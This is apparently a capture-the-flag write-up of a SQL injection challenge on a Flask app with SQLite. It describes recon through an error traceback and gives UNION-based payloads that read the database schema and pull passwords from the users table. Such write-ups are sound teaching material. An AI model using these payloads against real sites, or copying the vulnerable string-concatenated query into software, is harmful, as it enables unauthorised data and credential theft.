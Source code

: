 # Meet The Union
Meet the union was a simple sql injection challenge on a flask application.

Unlike the other web challenge we were not given the source code. Despite this the challenge was quite straightforward.

## Recon
Upon visiting the pain page we can view the team members, clicking on one of them we can see the url takes an id parameter.
Based off the name we assumed this was a sql based injeciton, because the application was python based (flask to be exact), it was a fair bet the website was using sqlite3 as its
database. This is 100% an assumption based of experience, nearly everytime we've seen a sql challenge with a flask app the backend has used sqlite3.

Testing our hypothosis we sent a single `'`, which got the following response;
```
Traceback (most recent call last):
  File "unionflaggenerator.py", line 49, in do_GET
    cursor.execute("SELECT id, name, email FROM users WHERE id=" + params["id"])
sqlite3.OperationalError: unrecognized token: "'"
```

This gives us both the sql querry and confirms our assumption about sqlite3

## Exploitation
Using a payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
we could extract table names. We had to modify it slightly to make it work but the following querry returned a list of tables;
```
/?id=69 union select 2,(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'),(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users')
```
This got us the table name `users`, using this we could get the flag with the following payload;
```
/?id=69 or 1=1 union select 1,(select password from users ),1
```

## Closing notes
* The creator of the challenge later pointed out to us that the union statement was meant to be a reference to both the CTF (Union CTF) and the challenge name.
* We did initially try the users table, however we apperantly made some mistake in our payload causing a false negative.
